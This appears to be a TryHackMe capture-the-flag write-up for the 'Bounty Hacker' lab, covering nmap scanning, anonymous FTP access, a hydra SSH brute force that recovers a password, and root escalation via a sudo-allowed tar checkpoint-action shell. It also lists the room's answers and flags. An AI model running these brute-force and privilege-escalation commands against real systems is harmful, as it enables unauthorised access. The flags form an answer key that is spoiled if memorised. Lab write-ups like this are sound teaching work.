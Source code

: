 # Bounty Hacker

You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

[Bounty Hacker](https://tryhackme.com/room/cowboyhacker)

## Topic's

- Network Enumeration
- FTP Enumeration
- Brute Forcing (SSH)
- Misconfigured Binaries

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Living up to the title.

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!

1. Deploy the machine.

`No answer needed`

2. Find open ports on the machine

```
kali@kali:~/CTFs/tryhackme/Bounty Hacker$ sudo nmap -sS -sC -sV -O -A 10.10.156.215
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-05 14:51 CEST
Nmap scan report for 10.10.156.215
Host is up (0.031s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.106.222
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (90%), Infomir MAG-250 set-top box (90%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (90%), Ubiquiti AirOS 5.5.9 (90%), Linux 2.6.32 - 3.13 (89%), Linux 3.3 (89%), Linux 2.6.32 - 3.1 (89%), Linux 3.7 (89%), Netgear RAIDiator 4.2.21 (Linux 2.6.37) (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 49154/tcp)
HOP RTT      ADDRESS
1   31.06 ms 10.8.0.1
2   31.25 ms 10.10.156.215

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.10 seconds
```

`No answer needed`

3. Who wrote the task list?

```
kali@kali:~/CTFs/tryhackme/Bounty Hacker$ ftp 10.10.156.215
Connected to 10.10.156.215.
220 (vsFTPd 3.0.3)
Name (10.10.156.215:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp> mget *
mget locks.txt?
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.08 secs (5.0435 kB/s)
mget task.txt?
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (245.9491 kB/s)
ftp> exit
221 Goodbye.
```

```
kali@kali:~/CTFs/tryhackme/Bounty Hacker$ cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

`lin`

4. What service can you bruteforce with the text file found?

`ssh`

5. What is the users password?

```
kali@kali:~/CTFs/tryhackme/Bounty Hacker$ hydra -l lin -P locks.txt 10.10.156.215 -t 4 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-05 14:58:50
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.156.215:22/
[22][ssh] host: 10.10.156.215   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-05 14:58:57
```

`RedDr4gonSynd1cat3`

6. user.txt

```
kali@kali:~/CTFs/tryhackme/Bounty Hacker$ ssh lin@10.10.156.215
The authenticity of host '10.10.156.215 (10.10.156.215)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.156.215' (ECDSA) to the list of known hosts.
lin@10.10.156.215's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{CR1M3_SyNd1C4T3}
lin@bountyhacker:~/Desktop$
```

`THM{CR1M3_SyNd1C4T3}`

7. root.txt

```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin:
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

- [.. / tar](https://gtfobins.github.io/gtfobins/tar/)

```
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
THM{80UN7Y_h4cK3r}
#
```

`THM{80UN7Y_h4cK3r}`
